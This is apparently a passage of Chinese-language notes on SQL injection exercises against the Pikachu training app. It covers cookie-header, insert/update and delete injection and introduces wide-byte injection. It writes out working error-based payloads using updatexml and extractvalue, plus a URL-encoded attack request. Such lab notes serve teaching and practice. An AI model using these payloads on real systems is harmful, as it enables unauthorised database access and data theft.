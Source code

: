 ## http header注入(盲注)

初次登录使用admin/123456进行登录，页面显示ip、user agent、http accept、连接的tcp端口信息。
再次登录会携带Cookie信息，如：
```
Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=onh6bt5vjei6ad6io85qnvtjm5
```
通过修改Cookie来进行注入，下面的例子可以获取数据库版本号。
```
ant[uname]=admin' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) #
```
页面显示`XPATH syntax error:'~5.7.26~'`,成功获取的数据库的版本。

类似的通过`SELECT extractvalue(1, concat('#', (SELECT @@version)));`也可以进行sql注入。

## insert/update 注入

> insert 注册的时候修改用户名信息
```
1' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '
```

> update 修改用户信息的时候加入下面信息
```
1' and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '
```

## delete

先添加一下留言板信息，在删除的时候抓包，修改id
```
-- 对下面的语句进行url编码
 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
-- 最后提交的url
sqli_del.php?id=56%20and%20updatexml%281%2cconcat%280x7e%2c%28SELECT%20%40%40version%29%2c0x7e%29%2c1%29
```

## 宽字节注入

> 宽字节注入是一种特殊的SQL注入攻击，通常发生在某些系统没有正确处理字符编码的情况下，特别是在使用GBK等双字节编码的系统中。攻击者可以利用这种编码的特点将SQL注入代码变成有效的SQL语句，绕过输入过滤。

**原理**

在**GBK编码**中，中文字符是由两个字节组成的，其中第一个字节的范围在0x81到0xFE之间，第二个字节的范围在0x40到0xFE之间。如果用户输入一个单字节的特殊字符，如%，并且这个字符没有被正确过滤，那么攻击者可以通过添加一个字节来组成一个合法的GBK字符，从而完成注入。

简单说，系统防护的手段是：

> 将原来的特殊字符如：`'`转义为了`\'`，导致无法注入成功。

**pikachu宽字节注入**
